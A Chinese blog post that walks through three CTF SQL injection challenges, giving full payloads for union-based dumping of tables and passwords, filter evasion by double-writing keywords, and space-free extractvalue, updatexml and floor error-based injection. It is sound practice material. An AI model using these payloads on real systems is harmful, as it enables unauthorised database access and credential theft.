 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(一)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-01             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


> 以下为做完题之后的整理，对于个人来说为了形成一个测试流程习惯

## 0x00：堆叠注入-lovesql
首先进入页面，发现有两个输入框，分别对于用户名和密码加上单引号测试闭合。  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekjmd8ewj30kx0d20xo.jpg)  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjdkyzuj30i905574a.jpg)  
报错点在密码处，首先尝试最简单的联合注入查询，通过select 语句探询字段数以及观察回显字段。  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdekmavozaj30hr0atgol.jpg)  
发现在第三个字段回显信息，那个我们可以利用以下语句找到flag。
` 123' union select 1,2,concat(database())#`
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmi7h0aj30ej0ao41e.jpg)  
` 123' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#`
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmdqsw5j30hs06xac2.jpg)  
` 123' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#`
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklt62lnj30hw067dho.jpg)  
` 123' union select 1,2,group_concat(password) from l0ve1ysq1#`
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklq9wxpj30ho0aiq5f.jpg)  
找到flag，copy下来就容易看出了。  
总结一下：该sqli没有过滤，在使用联合查询注入这个简单注入时没有受到阻拦，使用group_concat是为了将整个字段的内容连接起来避免遗漏，
使用到了mysql特性数据库information_schema库，本次练习旨在提高熟悉程度以及小知识点的巩固。

## 0x01绕过简单规则-babysql
首先进入页面，依旧测试注入点，依旧和上述一样，用户密码为不同的输入，都加上单引号测试闭合以及注入点，这里就暂时不放上来了。   
测试一下联合注入：`123' union select 1,2,3#`  
报错回显：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklmrmqpj30c103t742.jpg)  
仔细一看，我们的union和select去哪了？？？？原来过滤规则将union、select替换为空字符，可以猜测敏感词都会替换为空，分析一下，用户的输入会经过一次遍历，查找到危险词汇就会替换为空。
由之前学习得知，双写这些词，就可以绕过：`123' uniunionon seleselectct 1,2,3#` 
成功回显：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklj3x8jj30ej0afgoo.jpg)  
那么我们就来fuzz一下，看看哪些词会被替换成空，打开burp，接下来就是载入自己的sql字典遍历一下看一看：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdeklg1hjcj30t10epabv.jpg)  
这就知道了哪些词汇会被替换，我们要使用的时候直接双写！！！
由于步骤和以上一样，就简单记录一下payload，不放图了（有点懒哈哈哈哈）  
` 123' uniunionon seleselectct 1,2,concat(database())#`  
` 123' uniunionon seleselectct 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='geek'#`  
` 123' uniunionon seleselectct 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'#`  
` 123' uniunionon seleselectct 1,2,group_concat(passwoorrd) frfromom b4bsql#`  
总结一下：该题目添加了简单的过滤规则，输入比较容易绕过的类型，此处我使用了burp去遍历过滤词，便于后续的payload构造，此处依旧是联合注入，还是比较简单的一道题目。

## 0x02hardsql
首先进入页面，依旧开始测试注入点，还是和之前一样，密码为注入点，单引号闭合，#没有过滤，接着测试联合注入，页面响应为：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekl09bgxj30px0budkt.jpg)  
有过滤规则，统一了错误页面，那么开始测试哪些sql用词被过滤，依旧打开burp，遍历过滤词：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkx4c9vj30s90gi767.jpg)  
可以看到过滤了空格、等号这些偏符号的都过滤了，联合注入也不能使用了，尝试堆叠注入，由于堆叠注入的使用条件非常有限，我们测试一下看看：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkstgcij30md08qdhf.jpg)  
可以看出这大概是不行的了，没法执行多条语句。接下来剩下报错注入和盲注，先尝试报错注入，所用到的所有词都没有过滤，由于这里空格被过滤了，用其他符号来代替完成：  
`123'^extractvalue(1,concat(0x7e,(select(database())),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekkpz8qdj30b705vgmg.jpg)  
报错信息回显，利用xpath错误回显我们需要的信息,那么就是说我们报错注入是成功的，接下来构造相关语句：
`123'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekkmqoczj30ba06fq3y.jpg)  
`123'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjvam81j30dg08d40d.jpg)  
`123'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekjrvog0j30f205tt9v.jpg)  
咦，这个时候只显示了一半，搜索了一下，发现extractvalue和updatexml这两个常用的报错注入函数能查询的字符串最大长度为32，在显示内容过多时，可用截取函数substr或者left，right来截取或者使用concat函数的参数位置调换以此获取前后信息。  
这里我们就利用left或者right来尝试一下  
`123'^extractvalue(1,concat(0x7e,(select(right((password),30))from(H4rDsq1)),0x7e))#`    
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjpb7p0j30ib07fdhu.jpg)  
这个时候我们拼接一下就完成了，这里总结以下：题目存在统一错误页面而且有错误信息回显，报错注入有一些会使用函数参数来返回错误信息，这一题使用到的是extractvalue，同类型的还有updatexml，都是利用xpath报错返回信息。    
通过ExtractValue报错,注入语句如下:
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`  
通过UpdateXml报错,注入语句如下:
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`   
拓展一下经常看见的双查询：
通过floor报错,注入语句如下:
`and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);`这个报错查询主要是利用主键重复产生错误信息来回显。















